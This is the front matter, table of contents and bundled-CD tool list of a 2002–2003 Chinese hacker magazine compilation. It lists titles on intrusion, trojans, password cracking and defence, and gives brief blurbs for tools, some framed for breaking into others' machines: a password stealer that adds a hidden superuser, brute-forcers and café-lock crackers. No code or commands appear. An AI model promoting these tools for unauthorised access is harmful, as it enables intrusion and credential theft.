# 黑客X档案合订本2002-2003年（上）第一部分

---

# 黑客档案

## 合订本

## 2002—2003年

## 【上卷】

## 全新附录

- Workstation 服务中的缓冲区溢出（新漏洞）
- 特别主题：战术攻防之魂——《Cyber》空间隧道防护篇
- E-MAIL 欺骗攻击详尽攻略
- 文件传输之全体验
- 菜鸟跟我学——注册系统服务
- 如何防范 ASP 木马
- Serv-U 使用教程
- 巧用 X-SCAN 完成对动网下载站的注射

## 超强内容

- 流光终结教程
- 端口重定向的两个主要应用
- 局域网不完全小手册
- 个人服务器安全攻略
- 至尊宝典——解释字典的秘密
- 一览天下
- 重返盗界乐园
- 两次渗透国内 XX 知名杀毒软件厂商网站全记录
- 一次利用击键机渗透实例
- 一只菜鸟的实践之路——闲逛入侵回忆
- Windows 2000 入侵实战纪实
- MSSQL 新漏洞权限探索
- Telnet 后门设置
- 入侵检测的详细步骤与分析
- 一次有趣的网吧入侵
- 一次针对虚拟主机的安全测试
- 如何在命令行下远程安装终端服务
- Win2K 命令行下自做弱口令扫描器
- 用 Sniffer 让 TCP/IP 的结构“原形毕露”
- MAC 地址全攻略
- 最具硬盘破坏力的病毒

吉林科技出版社

## 黑客 X 档案

### 【上卷】

2002—2003 年合订本

《黑客 X 档案》编辑部 © 吉林科学技术出版社

## 目录

| 标题 | 页码 | 期号 | 标题 | 页码 | 期号 |
|---|---:|---|---|---:|---|
| 拼就 ping 吧 | 10 | 2002-1 | 代理服务器的使用 | 44 | 2002-6 |
| 兔子拯救 IE | 12 | 2002-1 | Windows 2000 的系统安全设置 | 45 | 2002-6 |
| 网吧冲浪之硬盘解锁 | 13 | 2002-2 | Windows 2000 中 EXE 文件失效的解决方法 | 46 | 2002-6 |
| QQ 是怎样被黑的 | 14 | 2002-2 | 如何充分发挥 Windows XP 的安全特性 | 46 | 2002-6 |
| 小小技巧 | 14 | 2002-2 | 我的第一次 | 49 | 2002-6 |
| 注册表“.REG”文件完全攻略 | 16 | 2002-3 | 让网络资源更加共享 | 50 | 2002-7 |
| 隐藏在身边的嗅探器——SMS | 18 | 2002-3 | 论小区宽带中的 MAC 地址盗用 | 52 | 2002-7 |
| 如何关闭你的 NetBIOS 服务 | 19 | 2002-3 | SMTP 网站的小漏洞 | 53 | 2002-7 |
| 常见黑客术语解释 | 20 | 2002-3 | “变废为宝”——巧取被废弃的免费主页空间 | 54 | 2002-7 |
| 谁动了我的 QQ | 20 | 2002-3 | 完美执行远程安装 VNC——写在成功测试之后 | 55 | 2002-7 |
| 如何利用网页改写注册表 | 21 | 2002-3 | 完全手工查杀进程 | 56 | 2002-7 |
| 骗收电子邮件细细说 | 21 | 2002-3 | 属于菜鸟的命令 | 57 | 2002-7 |
| 什么是黑客（中英文对照翻译） | 23 | 2002-3 | 扫描工具+IPSec 保卫网络安全 | 58 | 2002-7 |
| 巧解“非法操作” | 24 | 2002-4 | 暴力破解网页表单密码之工具——“FORM KILLER” | 59 | 2002-7 |
| 关闭危险之门，防止黑客入侵 | 24 | 2002-4 | 护花使者维护“花” | 60 | 2002-7 |
| 网站攻防实验 | 25 | 2002-4 | WWW 常见提示错误 11 例 | 60 | 2002-7 |
| X-Scan V1.3 扫描器的使用简介 | 27 | 2002-4 | 文件夹中的“道”与“魔” | 61 | 2002-7 |
| 光盘自动运行文件——Autorun.inf 的利用 | 28 | 2002-5 | 把肉鸡做成个人全功能代理服务器 | 62 | 2002-8 |
| 将禁止进行到底 | 29 | 2002-5 | 警惕网络杀手——pswmonitor 2.0 | 64 | 2002-8 |
| 超酷工具——Visual Route | 29 | 2002-5 | 最方便的远程开启 TELNET 工具——OpenTelnet | 65 | 2002-8 |
| 6 天 | 30 | 2002-5 | 终端服务中的远程控制功能 | 65 | 2002-8 |
| 一些我们应该了解的黑客基础知识 | 31 | 2002-5 | 屏幕录像 | 67 | 2002-8 |
| 注册向导登录 QQ 隐身诀窍 | 32 | 2002-5 | 突破网关封锁上 QQ | 68 | 2002-8 |
| 社会工程学破解 E-mail | 33 | 2002-5 | 隐身 QQ 用户 IP 地址暴露之谜 | 70 | 2002-8 |
| VMware 轻松实现操作系统之间切换 | 34 | 2002-5 | 两则 Win2000 密码问题的解决办法 | 72 | 2002-8 |
| 天行软件之网络刺客Ⅱ | 35 | 2002-5 | 阿贝与老菜的故事 | 73 | 2002-8 |
| 了解防火墙 | 36 | 2002-5 | 搜索引擎——黑客的另类工具 | 73 | 2002-8 |
| Email Cracker 是如何破解——Email 口令的 | 38 | 2002-5 | 搞定 Linux 文件 | 74 | 2002-8 |
| 如何设置 UNIX 中的文件及目录权限 | 38 | 2002-5 | 图解在线音乐（影视）下载攻略 | 75 | 2003-1 |
| 菜鸟玩转 Autocrat DDoS 攻击器 | 39 | 2002-6 | 被遗忘的角落——Win9x 系列共享密码校验漏洞的利用 | 77 | 2003-1 |
| 关闭磁盘的自动运行功能（Autorun） | 40 | 2002-6 | DOS 热键妙用 | 78 | 2003-1 |
| 离线浏览器 Offline Explorer Pro 有漏洞 | 40 | 2002-6 | 万象又一安全隐患 | 79 | 2003-1 |
| 黑客免费上网技术大曝光 | 41 | 2002-6 | 获得属于自己的瑞星杀毒软件 ID 号 | 80 | 2003-1 |
| 如何有效破解免费和付费 E-mail | 42 | 2002-6 |  |  |  |
| 浅析用 GHOST 恢复 NTFS 分区 | 43 | 2002-6 |  |  |  |
| 你藏好了吗 | 44 | 2002-6 |  |  |  |

## 目录

| 标题 | 页码 | 期号 |
|---|---:|---|
| 几种常用命令的应用 | 82 | 2003-1 |
| 如何对付网络执法官 | 84 | 2003-1 |
| WinRAR 在系统安全方面的应用 | 85 | 2003-1 |
| 技巧四则 | 85 | 2003-1 |
| 巧用 DOS 命令整蛊 | 86 | 2003-1 |
| 用网络蚂蚁获得远程主机基本信息 | 87 | 2003-1 |
| 菜鸟也谈账户隐藏 | 87 | 2003-1 |
| “流光”和 X-Scan 扫描功能比较 | 88 | 2003-1 |
| 通过 nbtstat 跟 137 端口获取信息 | 90 | 2003-1 |

# 骏马记

| 标题 | 页码 | 期号 |
|---|---:|---|
| 冰河时代 | 92 | 2002-1 |
| 青梅？木马？ | 93 | 2002-1 |
| 木马的解析与防范 | 94 | 2002-2 |
| 把灰鸽子赶尽杀绝 | 95 | 2002-8 |
| 妖艳的户外女生 | 96 | 2002-2 |
| 常用木马端口查询表 | 97 | 2002-2 |
| 永不会被杀的捆绑机——WinRAR | 98 | 2002-3 |
| 端口概览 | 99 | 2002-1 |
| 不懂编程也玩个人版木马 | 100 | 2002-3 |
| 手动查杀木马蓝色火焰一法 | 100 | 2002-3 |
| 驯马记 | 101 | 2002-3 |
| 木马综合症 | 102 | 2002-3 |
| 飞进局域网的木马——灰鸽子 | 104 | 2002-5 |
| 恐怖的“户外幽灵” | 106 | 2002-5 |
| 揪出隐藏在哪吒正文中的木马 | 108 | 2002-6 |
| QQ 杀手 6.197 折叠法 | 110 | 2002-6 |
| 让个人电脑灰飞烟灭的木马——XOT | 111 | 2002-7 |
| 木马是如何做到自我拷贝和关联文件的 | 113 | 2002-7 |
| 制造冰河 | 115 | 2002-7 |
| 藏木马于 Win2000 之中的最佳方案 | 117 | 2002-8 |
| 轻松实现远程控制 | 118 | 2002-8 |
| 编制木马的 3 个重要技术 | 119 | 2002-8 |
| WIN2K 登录木马的使用方法及其原理 | 120 | 2002-8 |
| 如何寻找提供转信功能的服务器 | 121 | 2003-1 |
| 查杀木马的通用解法 | 122 | 2003-1 |

# 黑客人物面对面

| 标题 | 页码 | 期号 |
|---|---:|---|
| 采访绿色兵团成员 Coldface | 124 | 2002-1 |
| 女黑客 GuGu 采访记 | 126 | 2002-2 |
| 孤独剑客采访记 | 127 | 2002-3 |
| analyst 采访 | 129 | 2002-4 |
| 采访小榕 | 131 | 2002-5 |
| 采访狮子 | 133 | 2002-6 |
| 寂寞高手——rootshell | 134 | 2002-7 |
| 跳跃青蛙——Snake | 136 | 2002-8 |
| 中国黑客 I 代——PP | 139 | 2003-1 |

# 神秘园

| 标题 | 页码 | 期号 |
|---|---:|---|
| TRW2000 入门教程 | 141 | 2002-2 |
| 15 秒内破解硬盘还原卡 | 141 | 2002-2 |
| 怎样破解隐藏目录的光盘 | 142 | 2002-2 |
| 轻松破解《黑客字典 II》 | 144 | 2002-3 |
| 给冰盾钻石版做个注册机 | 145 | 2002-3 |
| Telnet 密码破解软件 Letmein 1.0 | 145 | 2002-3 |
| 跟我学写注册机 | 147 | 2002-4 |
| 万象又一漏洞将导致严重后果 | 150 | 2002-5 |
| 我野蛮我怕谁——TRW2000 的应用扩展 | 153 | 2002-5 |
| 修改软件之脱壳 | 154 | 2002-5 |
| FTP SERV-U 2.5 密码的本地破解 | 155 | 2002-5 |
| 管家婆的密码隐患 | 156 | 2002-6 |
| 将冰盾破解到底 | 157 | 2002-6 |
| 如何结束护花使者进程 | 159 | 2002-6 |
| 加密光盘隐藏文件的破解 | 160 | 2002-7 |
| 解密其实很容易——GetPassword 解密实战 | 161 | 2002-7 |
| 解密专家——Password Recovery | 163 | 2002-7 |
| 浅谈计算机密码学 | 164 | 2002-7 |
| 动网论坛安全设置几则 | 165 | 2002-7 |
| 计算机密码系统的理论安全和实际安全 | 166 | 2002-8 |
| 美萍反黄专家全攻略 | 166 | 2002-8 |
| Win98 下另类方法获取“有声有色 8.1 特效代码” | 167 | 2002-8 |
| 对付加密 SWF 动画有高招 | 168 | 2002-8 |

## 目录

| 标题 | 页码 | 期号 | 标题 | 页码 | 期号 |
|---|---:|---|---|---:|---|
| 流光 for 98 的 IP 破解 | 169 | 2002-8 | 利用渗透法入侵 Windows 2000 一例 | 213 | 2002-7 |
| PGP 保卫邮件安全 | 170 | 2002-8 | 利用流光 4.7 入侵局域网实战 | 214 | 2002-7 |
| 妙用 NetXRay 分离联想上网账号 | 171 | 2003-1 | Win2K 渗透的常见问题 | 215 | 2002-8 |
| 关于 TRW2000——不得不说的几个问题 | 172 | 2003-1 | 轻松提升权限——debug 漏洞的利用 | 216 | 2002-8 |
| 如何避开 ISP 的监视 | 172 | 2003-1 | 7 种 DoS 攻击方法简述 | 217 | 2002-8 |
| 菜鸟破解 Pubwin4 | 173 | 2003-1 | Printer 远程溢出攻击实例 | 218 | 2002-8 |
| 网络密码的破解与防范 | 173 | 2003-1 | 一个菜鸟的实践之路——网站终结日记 | 220 | 2002-8 |
| 详述 Win9x 的共享入侵 | 175 | 2002-3 | Unix、Linux 常见的入侵方法讨论 | 222 | 2002-8 |
| 3389 端口入侵详细分析 | 178 | 2002-3 | MSSQL 新漏洞权限探索 | 223 | 2002-8 |
| 强大的 GUI 控制工具——DameWare NT Utilities | 180 | 2002-3 | Telnet 后门设置 | 226 | 2003-1 |
| 网吧攻击的几种方法 | 182 | 2002-3 | 如何利用“Sun Solaris/bin/login 验证绕过漏洞”——对 Sun Solaris 的入侵 | 227 | 2003-1 |
| 从一次攻击用户的全过程来看——网民的安全意识 | 183 | 2002-4 | 一次利用击键机渗透实例 | 229 | 2003-1 |
| FOR 自动密码猜测 | 185 | 2002-4 | 流光 4.7 新发现 | 230 | 2003-1 |
| 利用 .ida & .idq 溢出漏洞——获取 system 权限 | 186 | 2002-4 | 入侵网站又一法 | 231 | 2003-1 |
| Win 2K 下 FTP 及 WWW 日志的清除 | 187 | 2002-3 | 两次渗透国内 XX 知名杀毒软件厂商网站全记录 | 231 | 2003-1 |
| 一次利用 IDQ 漏洞——进行攻击的详细过程 | 188 | 2002-5 | 剖析 IPC 漏洞 | 234 | 2002-2 |
| NetBIOS 入侵实例及其防范方法 | 189 | 2002-5 | 如何利用 NAT 来保护我们的内部网络 | 234 | 2002-2 |
| 利用空口令和蓝色火焰的入侵 | 190 | 2002-5 | 简谈共享式网络中的 Sniff | 236 | 2002-2 |
| 浅谈不同系统下的后门制作 | 192 | 2002-5 | 如何让你的 Win2000 更安全 | 237 | 2002-2 |
| Win2000 445 端口的利用 | 193 | 2002-5 | 令人忽略的 5900 端口 | 238 | 2002-2 |
| Windows 2000 入侵实战纪实 | 193 | 2002-6 | 如何利用尼姆达 II 病毒——提升自己为系统管理员 | 239 | 2002-3 |
| 菜鸟也玩 UNICODE | 198 | 2002-6 | 入侵检测的详细步骤与分析 | 239 | 2002-3 |
| 狼来了——Windows 98 下的一次共享入侵 | 200 | 2002-6 | 利用 X-Scan 实现 DDoS Ping 攻击 | 243 | 2002-3 |
| 一次通过 MySQL 入侵的实例 | 202 | 2002-6 | 提高 NT/2000 权限的若干方法 | 244 | 2002-3 |
| 内部网络的入侵 | 203 | 2002-6 | 服务器伪装信息修改法 | 245 | 2002-3 |
| 一次有趣的网吧入侵 | 205 | 2002-6 | 如何冲破鼠标右键的限制 | 246 | 2002-3 |
| 清除 IIS 历史记录一法 | 206 | 2002-6 | Outlook Express 引起对硬件操作与拒绝服务攻击 | 247 | 2002-4 |
| 如何使用 NET 命令入侵内网 | 207 | 2002-6 | 常用文件的恐怖用法 | 247 | 2002-4 |
| 一个菜鸟的实践之路——网吧入侵日记 | 208 | 2002-7 | 测试 LBII5000 XP V0403 的安全性 | 248 | 2002-4 |
| 怎样利用 Win2000 入侵 Unix | 209 | 2002-7 | IIS 默认安装的漏洞及补救方法 | 251 | 2002-5 |
| 入侵某大学——上网账号服务器的全过程 | 211 | 2002-7 |  |  |  |

**分栏小标题：**
- 一个人的战争
- 黑客研究院

## 黑客 X 档案 2002—2003 年合订本（上）

## 目录

| 标题 | 页码 | 期号 |
|---|---:|---|
| 浅谈使用 IP 策略阻止 3389 非法访问 | 254 | 2002-5 |
| 用 SSL 安装协议实现 WEB 服务器的安全性 | 256 | 2002-5 |
| Netfilter 解决 NAT 问题一例 | 257 | 2002-5 |
| Solaris CDE 登录及启动故障的排除方法简述 | 258 | 2002-5 |
| LAN 中 2000 Pro 的安全配置 | 259 | 2002-5 |
| 端口重定向的两个主要应用 | 261 | 2002-6 |
| 绕过防火墙的几点思路与方法 | 263 | 2002-6 |
| 深入浅出 Win2000 计算机启动／关机脚本 | 265 | 2002-6 |
| 无盘网吧，你有多安全 | 267 | 2002-6 |
| 如何在命令行下远程安装终端服务 | 269 | 2002-4 |
| Unix 系统中最常见的安全问题 | 269 | 2002-6 |
| 让你的 IIS 无懈可击 | 270 | 2002-6 |
| 采用移动代理分布式系统在入侵检测中的作用 | 271 | 2002-6 |
| 目标主机操作系统判断方法新探 | 272 | 2002-6 |
| 数据库入侵与防护对策 | 273 | 2002-6 |
| WEB 欺骗技术寻踪 | 273 | 2002-7 |
| 打造最强劲的论坛 | 276 | 2002-7 |
| 关闭 IIS 危险之门 | 278 | 2002-8 |
| 宽带用户网络安全防范建议 | 280 | 2002-8 |
| 关于 SQL-SERVER 安全权限设置的问题 | 281 | 2002-8 |
| 信息地道战——浅谈信息隐藏技术在 HACK 中的应用 | 283 | 2002-8 |
| 关于局域网盗用 MAC 号码的深入讨论 | 285 | 2002-8 |
| 关于共享的几个错误认识 | 287 | 2003-1 |
| 服务器被 DDoS 的紧急应对措施 | 289 | 2003-1 |
| 一次针对虚拟主机的安全测试 | 290 | 2003-1 |
| 组策略与网络安全 | 294 | 2003-1 |
| 如何定位入侵的黑客 | 295 | 2003-1 |
| 浅谈 Finger 漏洞 | 296 | 2003-1 |

# 黑客编程

| 标题 | 页码 | 期号 |
|---|---:|---|
| 如何将多个文件捆绑成一个可执行文件 | 298 | 2002-3 |
| 混客炸弹解析 | 300 | 2002-3 |
| 一封恶意电子邮件的源码分析和几点思考 | 301 | 2002-3 |
| 浅谈网页加密 | 304 | 2002-4 |
| VB 中简单木马程序的编写 | 305 | 2002-4 |
| Delphi 设计 SOCKS UDP 代理服务器 | 307 | 2002-4 |
| 端口扫描的设计方法 | 309 | 2002-5 |
| 揭开能显示 IP 和 C 盘图片的神秘面纱 | 311 | 2002-5 |
| 利用江民锁原理写的一个硬盘锁程序 | 312 | 2002-5 |
| HTML 邮件攻防浅谈 | 314 | 2002-6 |
| 如何实现浏览器访问网站的转向功能 | 315 | 2002-6 |
| 用 VB6.0 来实现 Windows 拨号密码盗取 | 316 | 2002-6 |
| 如何屏蔽密码监看 | 318 | 2002-7 |
| VB 打造 HACKER 秘密武器 | 318 | 2002-7 |
| 自己动手备份主引导区 | 319 | 2002-7 |
| 用 DELPHI 实现金山网镖的功能 | 321 | 2002-8 |
| 使用 Delphi 在 Win2000/WinXP 下实现重启和关机 | 322 | 2002-8 |
| C 语言实现引导扇区备份与硬盘加锁 | 323 | 2003-1 |
| Win2K 命令行下自做弱口令扫描器 | 324 | 2003-1 |
| 用 VB 编写密码控制的功能限制程序 | 326 | 2003-1 |
| 使用 Java 设计简单端口扫描程序 | 327 | 2003-1 |
| 轻松绕过 SMTP 服务器的身份验证 | 328 | 2003-1 |

# 蠕虫

| 标题 | 页码 | 期号 |
|---|---:|---|
| 中国黑客病毒解析 | 329 | 2002-3 |
| Wininit.ini 文件与 Windows 病毒 | 329 | 2002-3 |
| Unix 系统病毒概述 | 331 | 2002-3 |
| 小心专门感染 JPEG 图像文件的 W32/Perrun 病毒 | 333 | 2003-4 |
| 轻松清除探索之星病毒 | 334 | 2002-5 |
| 病毒发作后的急救措施 | 334 | 2002-5 |
| COM 病毒编制的关键技术 | 335 | 2002-5 |
| 删除 Sambud 病毒注册码 | 335 | 2002-5 |
| 堵住病毒入口 | 336 | 2002-5 |

## 目录

| 标题 | 页码 | 期号 | 标题 | 页码 | 期号 |
|---|---:|---|---|---:|---|
| 轻松搞定爱情森林——Trojan.Sckiss 病毒 | 336 | 2002-6 | “QQ密码窃取器”使用和卸载方法 | 366 | 2002-1 |
| 三步解决红客——Trojan.RedHacker | 337 | 2002-6 | QQ密码破解工具——画蝶QQ密码探测器 | 367 | 2002-1 |
| 杀毒软件安全吗 | 337 | 2002-7 | QQ防范实例——破解QQ隐身穿墙术 | 367 | 2002-1 |
| 如何防范脚本病毒 | 338 | 2002-7 | 如何通过 HTTP 代理上 QQ | 368 | 2002-1 |
| 如何清除局域网病毒 | 339 | 2002-7 | 你是男是女 | 368 | 2002-1 |
| 常见的宏病毒介绍 | 340 | 2002-7 | 知名黑软实例教程：流光之在线破解 | 369 | 2002-2 |
| 最具硬盘破坏力的病毒 | 341 | 2002-8 | SuperScan 一扫到底 | 370 | 2002-2 |
| 如何在带毒环境下使用 Word | 343 | 2002-8 | 讨人喜欢的网络精灵 | 372 | 2002-2 |
| Win2K/XP 中的基本系统进程 | 343 | 2002-8 | 测雪之暴力破解 | 373 | 2002-2 |
| VBS.KJ 新欢乐时光病毒的初步剖析 | 344 | 2002-4 | 网络解密高手 Web Cracker | 374 | 2002-2 |
| FTP 基本命令 | 347 | 2002-1 | 黑洞探秘 | 375 | 2002-2 |
| 暴露自己 IP 地址的危险 | 347 | 2002-2 | 教你怎样做代理：代理基本概念及其工作原理 | 376 | 2002-3 |
| 远程修改路由器的 IP 地址 | 348 | 2002-4 | 使用代理服务器的好处 | 376 | 2002-3 |
| 解决 IP 盗用问题的三种技术手段 | 348 | 2002-4 | 代理服务器的常见问题 | 377 | 2002-3 |
| Telnet 简介 | 349 | 2002-4 | 如何使用代理服务器 | 377 | 2002-3 |
| Internet 协议下的下一版本 IPv6 | 350 | 2002-4 | 代理服务器在各种软件中的设置 | 380 | 2002-3 |
| 利用 TCP/IP 栈进行远程操作系统判断 | 351 | 2002-4 | 网民，您该如何注意安全 | 381 | 2002-4 |
| 在 WIN2000 系统中如何封 IP | 352 | 2002-5 | 黑客工具教程：黑客法宝 SSS 应用指南 | 386 | 2002-3 |
| WINDOWS 2000 下实现 TCP/IP 筛选 | 353 | 2002-5 | 字典制作工具——万能钥匙 XKey | 387 | 2002-3 |
| 浅议 IP 地址的分类 | 353 | 2002-6 | 代理猎手使用教程 | 389 | 2002-3 |
| 五分钟通晓网络基础知识 | 354 | 2002-6 | 黑软介绍之破解器 | 391 | 2002-3 |
| 什么是端口 | 355 | 2002-8 | 几种扫描器性能比较与扫描手法介绍 | 393 | 2002-3 |
| TCP/IP 和 OSI | 356 | 2002-8 | 最强大的攻击工具——DivinT3 使用说明 | 394 | 2002-3 |
| 什么是 DNS | 358 | 2003-1 | Hektek 使用说明 | 395 | 2002-3 |
| MAC 地址全攻略 | 359 | 2003-1 | 重返密码乐园：密码安全的基本原则 | 396 | 2002-5 |
| 用 Sniffer 让 TCP/IP 的结构形式“原形毕露” | 360 | 2003-1 | “密码破解教程一”——密码截取器的使用详解 | 396 | 2002-5 |
| 浅谈路由器及软件路由 | 362 | 2003-1 |  |  |  |

| 标题 | 页码 | 期号 | 标题 | 页码 |
|---|---:|---|---|---:|
| “密码破解教程二” |  |  |  |  |
| CMOS 密码破解 | 398 | 2002-5 | Workstation 服务中的缓冲区溢出 | 453 |
| “密码破解教程三” |  |  | E-MAIL 欺骗攻击详尽攻略 | 455 |
| WinZip 8.0/WinRAR 的加密与解密 | 399 | 2002-5 | 巧用 X-Scan |  |
| “密码破解教程四” |  |  | 完成对动网下载的注射 | 458 |
| Word 文档的加密与破解 | 401 | 2003-5 | 从入侵企业 BQQ |  |
| “密码破解教程五” |  |  | 服务器谈企业网安全 | 460 |
| Windows 98 共享密码破解 | 402 | 2002-5 | 浅谈 ICMP 协议之具体应用 | 463 |
| “密码破解教程六” |  |  | 如何防范 ASP 木马 | 466 |
| 电子邮箱密码——测算破解法 | 403 | 2002-5 | 文件传输之全体验 | 467 |
| “密码破解教程七” |  |  | 菜鸟跟我学——注册系统服务 | 469 |
| Windows 2000 密码破解 | 405 | 2002-5 | Serv-U 使用教程 | 470 |
| “密码破解教程八” |  |  | 菜鸟也谈木马&后门清除 | 476 |
| 密码破解原理揭秘 | 406 | 2002-5 | 浅谈针对压缩 DLL 文件的爆破法——记 CloveAntispam 的另类破解思路 | 479 |
| 至尊宝典——解密字典的秘密 |  |  | 战术攻防之塞伯（Cyber）空间隧道防护篇——VPN 浅析 | 481 |
| 常规字典 | 407 | 2002-6 |  |  |
| 特色字典工具 | 410 | 2002-6 |  |  |
| 一嗅天下 |  |  |  |  |
| 原理篇：我看着你的秘密 | 412 | 2002-7 |  |  |
| 应用篇：秘密武器出鞘 | 413 | 2002-7 |  |  |
| 防范篇：制造完美盾牌 | 417 | 2002-7 |  |  |
| 个人服务器安全攻略 |  |  |  |  |
| 精心护理你的 Web 服务器 | 421 | 2002-8 |  |  |
| 令你的 Web 服务器更强壮 | 425 | 2002-8 |  |  |
| 最后一招——如何打系统补丁 | 427 | 2002-8 |  |  |
| 附录：解密恶意网页加密代码 | 428 | 2002-8 |  |  |
| 局域网不完全小手册 |  |  |  |  |
| 一、局域网原理篇 | 431 | 2003-1 |  |  |
| 二、局域网问题篇 | 434 | 2003-1 |  |  |
| 三、局域网实战篇 | 437 | 2003-1 |  |  |
| 四、局域网安全篇 | 438 | 2003-1 |  |  |
| 五、后记 | 439 | 2003-1 |  |  |
| 附录部分 | 439 | 2003-1 |  |  |
| 黑黑岛问吧 |  |  |  |  |
| 呆呆虫问吧 | 441 | 2002.1–2003.1 |  |  |

# 附录（新增篇章）

> 黑客 X 档案 2002–2003 年合订本（上卷）

出版：吉林科学技术出版社

出品人：孙胜利

主编：谭华

编辑部主任：孙志强

编辑部：Zero 黑裤子 土豆 呆呆虫 小木头 楚欢

特约编辑：Python 射手 雪莲莲 ICEYES 小刘

光盘部：刘佳（主任）龚连成

美编：何有接 Bifrost

排版：何有接

E-mail：hackerxfiles@263.net

呐呐查询 E-mail：chaxunx@263.net

呐呐查询电话：（010）88560080

联系电话：（010）88561473 88561472

联系人：赵筠 小邵

邮编：100037

定价：28.8 元（双光盘 + 双图书）

声明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

## A 盘

## 1-2期

- **Wnuke：** 可以利用 Windows 系统的漏洞，通过 TCP/IP 协议向远程机器发送一段信息，导致一个 OOB 错误，使之崩溃。
- **RegSnap 汉化版：** 这是一个优秀的注册表快照工具。主要功能有：详细地向你报告注册表及其他与系统有关项目的修改变化情况。报告结果既可以以纯文本的方式，也可以 HTML 网页的方式显示，非常便于查看。
- **TCPView：** 一款运行在 Windows 上，监视和分析本机所有 TCP 和 UDP Endpoints 连接状态，包括列举远程端口等等，并且关闭任何该连接。
- **slimftp：** 我们在入侵别人机器时候，经常需要一个 FTP 服务器。去申请的主页空间附带的 FTP 服务器常常有各种限制，而且，不小心就会暴露了自己的身份。
- **nmap for Unix/Linux：** 这是一款运行在单一主机和大型网络情况下优秀的端口扫描工具，具有高速、秘密，可以绕过防火墙等特点，支持多种协议，如 TCP、UDP、ICMP 等。
- **HackScaner：** 《黑客 X 档案》专版端口扫描程序。其中 Proscan.exe 为高速扫描，Pro 为低速扫描。for WIN2000。
- **NetPass：** 该程式是利用了 Win95/98 的“速度破解漏洞”，数秒之内即可破解局域网上主机共享文件夹密码，但是对 WinNT、2000 主机无效。
- **Win2K 密码大盗：** 增加了一个超级用户名，密码存盘文件为系统临时目录的 config.ini，增加了自卫保护功能，防止非法删除，除非有作者的清除程序，WIN2K 超级密码就是那么脆弱，自己去拿吧。
- **SMBCrack：** SMBCrack 是为流光 5 开发的测试原型，和以往的 SMB（共享）暴力破解工具不同，没有采用系统的 API，而是使用了 SMB 的协议。
- **SuperDic：** 它是一款十分好用的密码字典生成工具，采用高度优化算法，制作字典速度极快，约每分钟 800 兆（CPU=800MHz）。

## 3-4期

- **LETMEIN：** 改进 KILLUSA 朋友的 LETMEIN，取消了对 202 开头 IP 的限制，你知道这意味着什么吗？
- **SSS：** 俄罗斯安全界非常专业的安全漏洞扫描软件，具有安全扫描、口令检查、操作系统检查等强大功能，支持在线升级。
- **EMAILCRACK：** EmailCrack 是一个基于 POP3 协议的自动登录机，它可以利用 POP3 协议的功能，对可能的用户密码进行登录试验，从而获得用户的密码。这种软件必须在连线状态下使用，适用于取得有邮箱的门户之密码。
- **pwcp20：** 是一个可以用来破解软件注册码、文件密码和其它种种密码的工具软件。
- **fpipe：** TCP 端口重定向程序，进入对方内部网一个很方便的工具。

## 5-6期

- **VisualRoute：** 目前世界上最好的 IP 地址查询工具，支持全世界所有的 IP 地址，功能强大。
- **VMware：** 不需要重开机就能在同一台电脑使用好几个 OS。

## 7-8期

- **MAC 扫描器：** 批量获取局域网内部所有机器的 MAC 地址。
- **Resource Hacker：** EXE 文件资源查看、修改工具，使用时要确保原文件没有被加壳压缩。
- **Password Recovery：** Word 文档密码恢复工具。
- **Iris Network Traffic Analyzer：** 网络流量分析监测工具，可以帮助系统管理员轻易地捕获和察看用户的使用情况，可以同时检测到进入和发出的信息流。
- **有声有色：** 升级新加入“花开富贵”、“开心宝宝”、“3D 立体旋转文字”、“泡泡雨”、“心动呼吸图片”、“蜘蛛网鼠标”等等 118 个极酷的特效，增强了软件的内部功能，内码转换功能增加“繁体中文字”与“简体中文字”之间的转换等等。

### 2003年10期杂志夹层

- **Snooper：** Project URL Snooper 是一个网络信息侦测（嗅探）软件，能够实时跟踪通过你电脑中（经过网卡、调制解调器等）的数据信息，并分析出里面的各种类型的 URL 地址。一些电影点播网站对于影片的地址往往隐藏得很好，但是这个软件能够很容易地将这些地址轻易展现在你的眼前。
- **keykill：** 击键机，通用强大的击键记录工具，自定义记录击键关键字，可以根据关键字记录任何时候的击键情况。
- **netview：** 是套整合了网络安全防护功能软件，包含了 NetView、PortScan、WebBrute 等，其中 NetView 负责的功能主要是扫描您电脑主机所在的网域中所有 Windows 平台电脑的分享资源，不过当然如果没有密码的话您还是进不去的。
- **Serv-U FTP Server：** WWW File Share 能帮你透过非常简单的步骤架起个人 FTP 站，让你与朋友之间能更方便地分享软件，透过它架起的 FTP 只占去很少的系统资源，并且其他使用者要进行上传下载只需要知道你的 Server Domain Name（或 IP）以及 port number 就能使用 Browser 来浏览文件目录，对于资料的传递和可携性有很大的帮助。
- **渗透自由版：** 无需任何密码即可打开加密图像。

#### 防火墙工具

- **xp-AntiSpy：** 把 Windows XP 里面好多可能泄露个人信息的选项禁用，并把一些限制解除。
- **Sygate Personal Firewall：** 可以让你的系统免遭来自 Internet 上的非法访问。这个程序功能强大，具伸缩性而且方便安装配置。

## IP 工具

- **Tray Ping：** 最小化在 System Tray 里的 Ping 工具，能够同时 Ping 若干个 IP 地址，能够定时 Ping，而且每一个 IP 的状态都可以用一个 TrayIcon 表示出来，能够建立 LOG 文件。
- **Whaddayagot：** 它将你在局域网中所有电脑都列出来，包括它们的 IP、MAC 位址，还有 NIC 制造商，然后它可以找出在某部电脑里安装了什么驱动程序，它还能 ping 这些被搜寻出来的电脑。

#### 网吧破解工具

- 万象网站过滤专家
- 电脑室网吧管理器破解版
- 美萍电脑安全卫士注册器

#### 木马清除工具

- **Trojan Remover：** 是一个专门用来清除特洛伊木马和自动修复系统文件的工具。
- **Trojan Defence Suite：** 可以检测到 360 种以上的特洛伊木马和电脑蠕虫，另外它还可以防止黑客攻击，具有自动升级、系统锁定和允许使用第三方插件等功能和特点。
- **Tiny Trojan Trap：** 是一个网络安全的软件，也作为防火墙使用，可以防止你的电脑免于被人入侵或植入特洛伊木马病毒，可以阻挡以 ActiveX、Java、VBS 等入侵方式。

## QQ 工具

- **QQ 去 FLASH 广告补丁：** 该软件可以除去 QQ 上烦人的 Flash 广告。
- **QQ 好友列表：** 该软件可以读出 QQ 的好友列表。
- **QQ 在线：** 隐身查询器，查出在线的隐身好友。

#### 密码工具

- **CMOS 密码提取：** 它可以显示出 Acer、AMI、AWARD、COMPAQ、DELL、IBM、PACKARD BELL、PHOENIX、ZENITH AMI 等等多种版本 BIOS 里的密码！
- **Screen Saver Password Recovery：** 忘记屏保密码的恢复工具。
